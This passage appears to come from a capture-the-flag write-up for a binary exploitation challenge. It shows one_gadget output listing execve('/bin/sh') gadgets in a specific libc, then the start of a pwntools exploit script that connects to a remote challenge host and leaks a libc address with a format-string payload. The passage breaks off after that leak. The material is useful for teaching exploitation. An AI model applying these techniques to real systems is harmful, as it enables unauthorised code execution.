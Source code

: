 We will use `libc62.27-3ubuntu1.4amd64` for our python script when exploiting.

Running `one_gadget` on the libc:

```aspnet
└─$ one_gadget libc.so.6
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Now we can construct our exploit script:

```python
from pwn import *
from time import sleep

elf = context.binary = ELF("./compiled/engine_remote")
gs = """
c
"""

def run():
        global libc
        if args.R:
                io = remote("136.243.68.77", 17009)
                libc = ELF("./lib/libc.so.6")
        elif args.D:
                libc = process(elf.path).libc
                io = gdb.debug(elf.path, gs)
        else:
                io = process(elf.path)
                libc = io.libc

        return io

def logaddr(addr, name):
        log.success(f"{name} @ {hex(addr)}")


def sendString(cmd, v=False, s=0):
        if v:
                print(f"Sending payload: {cmd}")
        io.sendline(cmd)
        sleep(s)

def extract_value():
        io.recvuntil('(')
        return int(io.recvuntil(')')[:-1], 16)

io = run()
libc.address = 0

#---=== LEAK LIBC ===---

sendString(f'%35$lx')
libc_leak = extract_value()
```